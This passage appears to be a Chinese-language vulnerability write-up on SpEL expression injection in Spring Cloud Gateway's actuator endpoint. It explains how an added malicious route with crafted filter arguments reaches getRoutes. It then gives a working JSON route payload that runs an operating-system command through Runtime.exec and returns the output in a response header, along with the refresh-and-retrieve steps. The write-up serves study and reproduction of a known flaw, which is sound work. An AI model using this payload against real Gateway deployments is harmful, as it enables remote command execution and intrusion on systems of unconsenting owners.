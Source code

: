 然后看到来到了刚才的getRoutes方法

所以这里漏洞形成的大致思路就是，Spring Cloud Gateway可以自己添加一个恶意路由，在通过访问/actuator/gateway/refresh来刷新路由，然后是添加的路由生效，调用了getRoutes方法，因为添加的路由带有filter或者predicates的恶意args参数，让对应的`properties`赋值，可以对Spel解析的表达式进行控制，从而导致了Spel表达式注入

其实在GatewayControllerEndpoint.class中可以看到

![image-20220407233235194](images/18.png)

通过get访问新添加的路由也可以直接调用getRoutes而且会显示路由信息，那不就可以显示Spel表达式执行后的值了吗？但是也需要提前refresh刷新路由，不过这样有另外的作用，如果构建的是命令回显的payload，可以直接访问得到回显结果

# 命令回显复现

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "https://xz.aliyun.com/"
}
```

主要还是构造命令回显的payload

接下来通过refresh刷新一下路由

再访问`http://localhost:8081/actuator/gateway/routes/test`检索路由信息

![image-20220407234312144](images/19.png)

这里如果检索的时候报错了，可以访问`http://localhost:8081/actuator/gateway/routes`来得到全部路由的值

![image-20220407234355534](images/20.png)
